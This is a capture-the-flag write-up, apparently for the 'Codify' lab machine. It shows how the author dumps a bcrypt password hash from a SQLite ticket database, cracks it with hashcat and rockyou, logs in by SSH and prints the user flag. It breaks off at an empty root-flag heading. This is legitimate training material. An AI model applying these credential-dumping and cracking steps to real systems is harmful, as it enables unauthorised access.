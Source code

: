 ## Initial Access & User Flag

Inside the home directory there is another folder, `joshua`, which we cannot access.

Looking at earlier, they also mention a ticketing system, and checking our `/var/www/contact`, we see a `tickets.db`.

Running `file` shows it to be a SQLite3 database.

I begin parsing it with `sqlite3`.

```
$ sqlite3
sqlite> .open tickets.db
sqlite> .tables
tickets  users
sqlite> .schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We see joshua's password hash! Lets crack it with hashcat and use the [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).

```
$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt

...
Session..........: hashcat
Status...........: Cracked
...

$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

His password is `spongebob1`! Lets SSH into his user account.
```
$ ssh josua@codify.htb

...
joshua@codify:~$ ls
test  user.txt
joshua@codify:~$ cat user.txt
c815809e836105effb21a8b582939998
```

Flag: `c815809e836105effb21a8b582939998`

## Root Flag
